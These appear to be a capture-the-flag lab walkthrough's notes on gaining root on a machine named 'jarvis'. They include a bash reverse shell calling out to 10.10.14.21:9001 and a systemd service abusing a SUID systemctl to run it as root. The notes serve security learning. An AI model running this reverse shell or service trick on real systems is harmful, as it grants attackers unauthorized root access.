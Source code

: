 # Getting Root
![[Pasted image 20211203132459.png]]

```bash
cat  /var/www/Admin-Utilities/simpler.py
```
![[Pasted image 20211203132748.png]]


create a reverse shell script on shm
```bash
$ cat /dev/shm/shell.sh 
bash -i >& /dev/tcp/10.10.14.21/9001 0>&1
```

![[Pasted image 20211203132953.png]]

Pepper
![[Pasted image 20211203133015.png]]

![[Pasted image 20211203133637.png]]

# GTFOBins  https://gtfobins.github.io/
### systemctl SUID
![[Pasted image 20211203134436.png]]

Content's
```bash
root@jarvis:/home/pepper# cat shell.sh 
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.21/9001 0>&1
root@jarvis:/home/pepper# cat jojo.service 
[Unit]
Description=shell

[Service]
Type=oneshot
ExecStart=/home/pepper/shell.sh 

[Install]
WantedBy=multi-user.target
```

```bash
pepper@jarvis:~$ systemctl link /home/pepper/jojo.service    
Created symlink /etc/systemd/system/jojo.service -> /home/pepper/jojo.service.
pepper@jarvis:~$ systemctl enable --now /home/pepper/jojo.service
Created symlink /etc/systemd/system/multi-user.target.wants/jojo.service -> /home/pepper/jojo.service.

```



![[Pasted image 20211203144929.png]]